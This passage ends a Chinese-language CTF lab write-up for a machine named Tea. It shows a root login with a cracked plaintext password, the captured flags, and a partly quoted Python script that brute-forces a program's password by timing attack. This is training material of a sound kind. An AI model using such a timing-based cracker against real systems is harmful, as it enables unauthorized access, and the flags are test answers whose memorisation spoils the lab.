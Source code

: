使用破解出的密码切换到 `root` 用户。

```bash
black@Tea:/tmp$ su -
Password: toddzhennb
root@Tea:~# id
uid=0(root) gid=0(root) groups=0(root)
```

最后，读取 flag，完成渗透。

```bash
root@Tea:~# cat /root/root.txt /home/red/user.txt 
flag{root-06a5f218-4203-11f0-918d-000c2955ba04}
flag{user-9667c39f-4203-11f0-9e29-000c2955ba04}
```

# 五、题外话

我打完才发现，这靶机群主叫我测试过

然后他的根目录有一个脚本，比我这快多了，想了解一下的看下面

```python
root@Tea:~# cat solve.py 
import subprocess
import sys
import time
import string

TARGET_PROGRAM = "./a.out"
MAX_LENGTH = 100
INITIAL_DELAY = 0.2
CHAR_DELAY = 0.05
TIMING_MARGIN = 0.01
ATTEMPTS = 2
DETECT_THRESHOLD = 0.15
CHARSET = string.ascii_lowercase + string.digits

def run_password_test(password):
    start_time = time.perf_counter()
    process = subprocess.Popen(
        [TARGET_PROGRAM, password],
        stdout=subprocess.PIPE,
        stderr=subprocess.PIPE
    )
    _, _ = process.communicate()
    return time.perf_counter() - start_time

def detect_length():
    for length in range(1, MAX_LENGTH + 1):
        test_pwd = 'a' * length
        total_time = 0
        for _ in range(ATTEMPTS):
            elapsed = run_password_test(test_pwd)
            total_time += elapsed
        avg_time = total_time / ATTEMPTS
        
        if avg_time >= DETECT_THRESHOLD:
            return length
    
    print("Password length not found (1-100)")
    sys.exit(1)

def crack_password(password_length):
    known = ""
```